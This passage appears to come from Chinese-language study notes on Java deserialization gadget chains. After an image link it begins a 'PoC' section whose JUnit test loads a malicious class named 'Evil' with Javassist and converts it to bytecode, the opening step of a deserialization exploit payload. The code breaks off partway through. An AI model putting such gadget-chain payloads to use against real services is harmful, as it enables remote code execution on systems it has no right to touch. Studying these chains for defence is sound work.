     ![image-20241021184318120](Gadgets2/image-20241021184318120.png)
    简单明了，直接就调用。

### 1.3 PoC

1. PoC 构造如下：
    ```java
    @Test
    public void testCB() throws Exception{
        // 1. 读取恶意类 bytes[]
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
    